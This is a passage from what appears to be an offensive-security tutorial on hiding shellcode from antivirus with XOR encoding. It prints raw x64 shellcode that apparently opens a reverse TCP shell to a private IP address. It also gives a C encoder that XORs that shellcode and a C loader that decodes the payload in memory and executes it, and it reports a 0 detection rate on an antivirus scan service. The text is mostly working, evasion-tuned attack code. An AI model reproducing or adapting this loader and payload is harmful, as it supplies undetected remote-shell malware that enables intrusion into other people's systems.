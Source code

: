 ## Obfuscation
Even though our C coded shellcode wrapper runs perfectly fine, we can enhance it by obfuscating our payload.

We will be using XOR encryption.
We start by creating a C encoder program.
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

unsigned char buf[] = 
"\x48\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
"\x6a\x22\x41\x5a\xb2\x07\x0f\x05\x48\x85\xc0\x78\x51\x6a\x0a"
"\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
"\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00\x00\x50\xc0\xa8"
"\x31\x87\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x59"
"\x48\x85\xc0\x79\x25\x49\xff\xc9\x74\x18\x57\x6a\x23\x58\x6a"
"\x00\x6a\x05\x48\x89\xe7\x48\x31\xf6\x0f\x05\x59\x59\x5f\x48"
"\x85\xc0\x79\xc7\x6a\x3c\x58\x6a\x01\x5f\x0f\x05\x5e\x6a\x7e"
"\x5a\x0f\x05\x48\x85\xc0\x78\xed\xff\xe6";

int main (int argc, char **argv) 
{
	char xor_key = 'J';
	int payload_length = (int) sizeof(buf);

	for (int i=0; i<payload_length; i++)
	{
		printf("\\x%02X",buf[i]^xor_key);
	}

	return 0;

}
```

Our code defines an XOR key value (in this case, "J") and calculates the length of the buffer string. It then stores that value as an integer in the _payload_length_ variable.
The program then iterates through the characters, performing a bitwise-XOR operation on them with the XOR key we chose.
Finally, it prints the newly-encoded hex value to the screen so that we can copy it later.

We use gcc to compile the program and execute it to get our encoded payload.

![](../../../Screenshots/cenc-xor.png)

## New Shellcode
Our new shellcode will have the encoded payload, with a decryption routine and ofcourse, the execution function.
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// Our obfuscated shellcode
unsigned char buf[] = "\x02\x7B\xB5\x20\x43\x12\xD3\xFC\x5A\x02\xC3\x9C\x07\x7B\x83\x20\x68\x0B\x10\xF8\x4D\x45\x4F\x02\xCF\x8A\x32\x1B\x20\x40\x0B\x13\x1A\x20\x63\x12\xD3\x20\x48\x15\x20\x4B\x14\x45\x4F\x02\xCF\x8A\x32\x71\x02\xDD\x02\xF3\x48\x4A\x4A\x1A\x8A\xE2\x7B\xCD\x1B\x02\xC3\xAC\x20\x5A\x10\x20\x60\x12\x45\x4F\x13\x02\xCF\x8A\x33\x6F\x03\xB5\x83\x3E\x52\x1D\x20\x69\x12\x20\x4A\x20\x4F\x02\xC3\xAD\x02\x7B\xBC\x45\x4F\x13\x13\x15\x02\xCF\x8A\x33\x8D\x20\x76\x12\x20\x4B\x15\x45\x4F\x14\x20\x34\x10\x45\x4F\x02\xCF\x8A\x32\xA7\xB5\xAC\x4A";

int main (int argc, char **argv) 
{
	char xor_key = 'J';
	int arraysize = (int) sizeof(buf);
	for (int i=0; i<arraysize-1; i++)
	{
		buf[i] = buf[i]^xor_key;
	}
	int (*ret)() = (int(*)())buf;
	ret();
}
```

Compiling and running this payload we get a shell as expected, but this time, we get 0 detection rate with Antiscan.me